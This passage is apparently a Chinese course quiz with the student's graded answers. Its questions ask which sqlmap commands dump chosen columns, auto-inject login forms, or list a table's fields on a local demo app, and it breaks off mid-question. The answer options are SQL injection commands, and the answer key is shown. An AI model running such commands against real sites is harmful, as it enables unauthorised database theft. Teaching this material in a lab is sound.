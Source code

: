 

## 一.单选题*（共6题,75.0分）*

*1*

使用sqlmap显示表tb_stuinf表的内容。要求只显示xh,xm两个字段的内容，下面命令正确的是？

- A、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf -C xh,xm,class_name --dump

  

- B、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf --dump

- C、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf -C xh,xm --dump

- D、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf xh,xm --dump

正确答案： C 我的答案：C得分： 12.5分

*2*

使用sqlmap进行post方式的自动搜索表单进行注入的操作，下面命令正确的是

- A、

  sqlmap.py -u"http://127.0.0.1/demo17/login.php" --forms

  

- B、

  sqlmap.py -u"http://127.0.0.1/demo17/login.php" --froms

- C、

  sqlmap.py -u"http://127.0.0.1/demo17/login.php" --auto

- D、

  sqlmap.py -u"http://127.0.0.1/demo17/login.php" 

正确答案： A 我的答案：A得分： 12.5分

*3*

使用sqlmap查询表tb_stuinf有什么字段，下面命令正确的是？

- A、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf --col
